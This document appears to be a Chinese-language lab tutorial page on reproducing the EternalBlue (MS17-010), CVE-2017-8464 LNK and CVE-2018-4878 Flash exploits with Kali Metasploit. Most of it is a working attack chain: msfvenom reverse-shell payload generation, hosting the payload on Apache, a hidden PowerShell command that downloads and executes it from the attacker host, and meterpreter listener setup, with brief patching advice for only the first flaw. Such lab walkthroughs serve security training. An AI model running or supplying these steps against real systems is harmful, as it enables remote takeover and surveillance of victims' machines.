 ```yaml
---
slug: /net-security/10/10
---
```




Kali MSF（The Metasploit Framework），开源的漏洞利用和测试工具。

MSF 提供 MSFconsole 接口：

![](https://img.wukaipeng.com/2024/02/06-235229-gbrJi1-image-20240206235227871.png)

## MS17-010 漏洞

### 漏洞描述

永恒之蓝漏洞（MS17-010），它的爆发源于 WannaCry 勒索病毒的诞生，该病毒是不法分子利用 NSA（National Security Agency，美国国家安全局）泄露的漏洞“EternalBlue”（永恒之蓝）进行改造而成。

该漏洞可以通过 TCP 的 139 和 445 端口，攻击 Windows 系统的 SMB 服务，造成远程代码执行。

MS17-010 漏洞主要是针对于 Windows7 及以前的操作系统。

### 漏洞复现

Win7 需要满足这四个条件：

1. 关闭防火墙
2. 使用 SMBv1 协议
3. 缺少 MS17-010 补丁
4. 允许匿名 IPC &dollar; 和管道符 

> 从 MSDN 下载的镜像默认满足第 2、3 点
>
> 对于第 4 点，用 `window + R` 打开 run 程序，输入 `gpedit.msc` 打开本地策略编辑器
>
> 关闭「限制对命令管道和共享的匿名访问」：
>
> ![](https://img.wukaipeng.com/2024/02/08-235041-pDmfFl-image-20240208235041088.png)
>
> 改完之后重启电脑



首先进入 msfconsole

```bash
msfconsole
```

接下来搜索该漏洞利用，可以搜到四个可利用模块，先用第一个：

```bash
search MS17-010
use 0
```

查看所需的配置

```bash
show options
```

设置一下缺少的配置：



![](https://img.wukaipeng.com/2024/02/08-235705-lRXkJy-image-20240208235705660.png)

```bash
set rhosts 172.16.26.1
```

攻击

```bash
exploit
```



修复方法：

1️⃣ 部署安全产品

2️⃣ 打补丁

3️⃣ 关端口

4️⃣ Windows 防火墙做白名单策略

## 远程命令执行漏洞 CVE-2017-8464（震网三代）

### 漏洞描述

2017 年 6 月 13 日，微软官方发布编号为 CVE-2017-8464 的漏洞公告，官方介绍 Windows 系统在解析快捷
方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用
户系统，安全风险高危。

Windows 系统使用二进制解析。LNK 文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，
由于是在 explorer.exe 进程中运行，所以 load 进内存时与当前用户具有相同权限。

攻击者利用这一解析过程将包含恶意二进制的代码附带进可移动驱动器（或远程共享过程中），受害者
使用 powershell 解析 .LNK 文件后即被黑客所控制。

成功利用此漏洞的攻击者可能会获得与本地用户相同的用户权限。

### 漏洞利用

1. 在 kali 中利用 msfvenom 生成一个反弹 shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4444 -f psh-reflection > ~/magedu.ps1
```

![](https://img.wukaipeng.com/2024/02/08-175726-y2WWfT-image-20240208175725260.png)

在 Home 目录可以看到新生成的 `magedu.ps1` 文件

将该文件复制到 `/var/www/html` 文件夹中，目的是让该木马文件被访问

```bash
cp ~/magedu.ps1 /var/www/html 
```

在 kali 中启动 Apache 服务（默认端口为 80）

```bash
service apache2 start
```

启动后在目标机器上可访问该地址到 `megadu.psq` 木马文件：

![](https://img.wukaipeng.com/2024/02/08-230617-vbqQTv-image-20240208230617185.png)

接着在目标机器上创建快捷方式：

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://172.16.26.129/magedu.ps1');test.ps1"
```

![](https://img.wukaipeng.com/2024/02/08-230541-drFSv2-image-20240208230541033.png)

在 kali 创建反弹 shell：

```bash
msfconsole
use exploit/multi/handler   //侦听模块
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.26.129
show options
```

在目标机器上打开快捷方式，kali 这边就能看到已经攻击成功了：

![](https://img.wukaipeng.com/2024/02/08-230807-XTDY8x-image-20240208230807213.png)

输入 `screenshot` 命令，可以看到截图成功：

![](https://img.wukaipeng.com/2024/02/08-232542-8cWNkk-image-20240208232542173.png)

## Flash 漏洞 CVE-2018-4878

### 漏洞描述

2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明 Adobe Flash 28.0.0.137 及其之前的版本，存在高危漏洞（CVE-2018-4878）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此 Flash 链接时，会被“远程代码执行”，并且直接被 getshell。

参考链接：https://blog.51cto.com/chenxinjie/2093653

### 漏洞利用

下载工具：

生成攻击代码

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4445  -f python>magedu_shellcode.txt
```

将生成代码替换到 python脚本中：

![](https://img.wukaipeng.com/2024/02/13-140651-EiUoJO-image-20240213140651325.png)



执行脚本：

![](https://img.wukaipeng.com/2024/02/13-140746-MF6F8s-image-20240213140746713.png)

将生成的脚本复制到  `/var/www/html` 中，并启动 apache 服务器

![](https://img.wukaipeng.com/2024/02/13-141103-V53UJz-image-20240213141103378.png)

```
service apache2 start
```

启动监听

```
msfconsole                         
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 172.16.26.129               
set lport 4445
exploit
```



目标机器上安装 Flash

![](https://img.wukaipeng.com/2024/02/13-140452-kjifgr-image-20240213140452183.png)

在目标机器上打开 `172.16.26.129/index2.html`

![](https://img.wukaipeng.com/2024/02/13-140538-NZ6GrL-image-20240213140538664.png)

利用成功：

![](https://img.wukaipeng.com/2024/02/13-134936-TTJ3ak-image-20240213134935625.png)











